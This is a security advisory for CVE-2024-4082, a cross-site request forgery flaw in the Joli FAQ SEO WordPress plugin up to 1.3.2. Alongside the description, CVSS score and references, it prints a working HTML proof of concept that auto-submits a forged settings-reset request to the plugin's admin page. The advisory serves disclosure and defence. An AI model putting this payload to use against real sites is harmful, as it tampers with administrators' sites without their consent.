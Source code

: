 ```yaml
---
layout: page
title: CVE-2024-4082
subtitle: Joli FAQ SEO – WordPress FAQ Plugin <= 1.3.2 - Cross-Site Request Forgery
---
```

## Description
The Joli FAQ SEO – WordPress FAQ Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.2. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.2

## PoC :
```
<html>
  <!-- eneriiiiiiii<3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=joli_faq_seo_settings" method="POST">
      <input type="hidden" name="jfaq&#95;reset&#95;settings" value="Reset&#32;settings" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3081648%40joli-faq-seo%2Ftrunk&old=3076380%40joli-faq-seo%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4082
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/joli-faq-seo/joli-faq-seo-wordpress-faq-plugin-132-cross-site-request-forgery






